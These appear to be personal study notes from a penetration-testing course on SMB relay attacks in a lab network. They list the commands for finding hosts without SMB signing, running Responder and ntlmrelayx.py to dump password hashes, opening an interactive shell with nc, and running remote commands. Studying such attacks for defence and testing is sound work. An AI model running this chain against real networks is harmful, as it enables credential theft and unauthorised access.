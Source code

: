 SMB Relay Attacks Overview

Sunday, October 1, 2023

6:36 PM

![](005_SMB_Relay_Attacks_Overview_000.png){width="8.010416666666666in" height="5.84375in"}

 

 

![](005_SMB_Relay_Attacks_Overview_001.png){width="12.78125in" height="7.270833333333333in"}

Nmap script for identifying hosts without SMB signing example: nmap \--script=smb2-security-mode.nse -p445 10.0.2.0/24 -Pn

\*-Pn not required but can be very helpful if machine not responding but we know it\'s there.\*

 

 

![](005_SMB_Relay_Attacks_Overview_002.png){width="14.666666666666666in" height="4.59375in"}

Once host discovered where SMB signing is disabled or not enforced must modify responder to work correctly with relay example: sudo mousepad /usr/share/responder/Responder.conf

 

Then Run Responder

Sudo responder -I eth0 -dwPv

![](005_SMB_Relay_Attacks_Overview_003.png){width="13.84375in" height="7.708333333333333in"}

 

 

Set up relay sudo ntlmrelayx.py -tf targets.txt -smb2support

Create file with Ips of targets you\'ve identified as vulnerable

![](005_SMB_Relay_Attacks_Overview_004.png){width="9.822916666666666in" height="7.40625in"}

 

When an event occurs responder will forward to relay and ntlm relay forwards to target selected

![](005_SMB_Relay_Attacks_Overview_005.png){width="11.15625in" height="7.28125in"}

 

![](005_SMB_Relay_Attacks_Overview_006.png){width="12.854166666666666in" height="6.25in"}

Hash dump quick win

 

![](005_SMB_Relay_Attacks_Overview_007.png){width="12.53125in" height="5.5625in"}

-I at end opens interactive shell

-   NC 127.0.0.1 11001

    -   Course originally called for port 11000 but wouldn\'t work, so try different ports.

    -   Remember not to look for FAILED necessarily but shell

> ![](005_SMB_Relay_Attacks_Overview_008.png){width="8.1875in" height="7.3125in"}
>
>  
>
>  

Can also run Commands -c \"whoami\"

![](005_SMB_Relay_Attacks_Overview_009.png){width="13.791666666666666in" height="6.020833333333333in"}

 
